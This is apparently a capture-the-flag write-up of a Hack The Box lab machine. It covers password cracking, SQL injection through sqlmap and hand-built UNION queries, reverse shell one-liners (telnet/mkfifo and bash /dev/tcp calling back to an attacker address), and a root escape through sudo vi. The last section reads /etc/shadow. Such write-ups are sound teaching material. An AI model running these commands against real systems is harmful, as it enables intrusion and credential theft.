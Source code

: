 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)

## Recon-Enumeration  
![alt text](./img/medicine01.png?raw=true)  

![alt text](./img/medicine02.png?raw=true)  

Let’s try to use the credentials found in the OOPSIE machine  
![alt text](./img/medicine03.png?raw=true)  
  
Here we can only find one zip file. Let’s get it and try to unzip  
![alt text](./img/medicine04.png?raw=true)  

This was too easy…..however this password can be easily cracked with John…  
![alt text](./img/medicine05.png?raw=true)  

Using the password we can unzip the file and get 2 other files: index.php and style.css  
Inside the index.php file we can find a username and a password hash  
![alt text](./img/medicine06.png?raw=true)  

This hash is easier to crack, just use [crackstation](https://crackstation.net/)  
![alt text](./img/medicine07.png?raw=true)  

Now we can login and access the server  

## Exploit  
![alt text](./img/medicine08.png?raw=true)  

Here the SEARCH param is vulnerable to sqli  
![alt text](./img/medicine09.png?raw=true)  
  
Here we can use SQLMAP or do the SQLi manually.  
> SQLMAP  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e --dbs  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e -D pg_catalog --tables  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e -D pg_catalog -T pg_authid --dump  
![alt text](./img/medicine10.png?raw=true)  

> Manually  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,table_name,NULL,NULL,NULL%20from%20information_schema.tables--  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,column_name,NULL,NULL,NULL%20from%20information_schema.columns%20where%20table_name=%27pg_authid%27--  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,rolname,rolpassword,NULL,NULL%20from%20pg_authid--  
![alt text](./img/medicine12.png?raw=true)  

I tried crack this hash with john and hashcat, however a quick google search could saved some time  
![alt text](./img/medicine11.png?raw=true)  

With this credential we can connect to port 22 of this server:  
PS: we could use the sqlmap flag --os-shell to gain a shell and after gain an upgraded reverse shell with the next commands. However i lost the connection sometimes with this method  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e --os-shell  
Attacker box: nc -nvlp 1234  
Victim box: RHOST=10.10.16.82; RPORT=1234; TF=$(mktemp -u); mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/sh 1>$TF &  
Attacker box: nc -nvlp 4444  
Victim box: bash -c 'exec bash -i &>/dev/tcp/10.10.16.82/4444 <&1' &  
![alt text](./img/medicine13.png?raw=true)  
HABEMUS SHELL \o/

## Privesc  
![alt text](./img/medicine14.png?raw=true)  

Look’s like we can run the command “/bin/vi /etc/postgresql/11/main/pg_hba.conf” as sudo, so we can get root:  
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf  
PRESS ESC KEY  
:set shell=/bin/sh  
:shell  
![alt text](./img/medicine15.png?raw=true)  

## Discoveries  
cd /var/lib/postgresql/.ssh  
![alt text](./img/medicine17.png?raw=true)  

/etc/shadow  
![alt text](./img/medicine16.png?raw=true)  
